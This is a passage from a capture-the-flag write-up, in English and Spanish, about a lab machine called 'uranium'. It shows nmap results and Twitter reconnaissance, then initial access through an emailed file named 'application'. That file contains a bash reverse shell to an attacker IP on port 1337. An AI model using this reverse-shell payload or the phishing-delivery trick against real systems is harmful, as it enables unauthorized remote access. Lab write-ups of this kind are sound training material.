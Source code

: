 ```bash
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  uranium; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 21 13:43:46 2021 -- 1 IP address (1 host up) scanned in 30.56 seconds
```
So, we have an `smtp` server runnin, a `web` server and a `ssh` service running.

But the creator give us a twitter account, so let's recon it too!

Reading the twitter, we get some information...

Entonces, tenemos un servidor `smtp` en ejecución, un servidor` web` y un servicio `ssh` en ejecución.

Pero el creador nos dio una cuenta de Twitter, ¡así que vamos a investigarla también!

Al leer el twitter, obtenemos algo de información ...

![recon](recon.png)

1. Ahora tenemos un dominio y un correo electrónico.
2. Sabemos que el usuario abre el contenido del correo en su terminal y espera un archivo con el nombre "application".


## Acceso inicial - Usuario

¿Qué pasa si enviamos un correo electrónico con una "aplicación" con una reverse shell?

Puede obtener la shell reverse desde este sitio [revshells](https://www.revshells.com/)

```bash
╰─ lanfran@parrot ❯ cat application                                                                                                ─╯
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.9.1.53/1337 0>&1"
```
¡Enviemos el correo ahora!
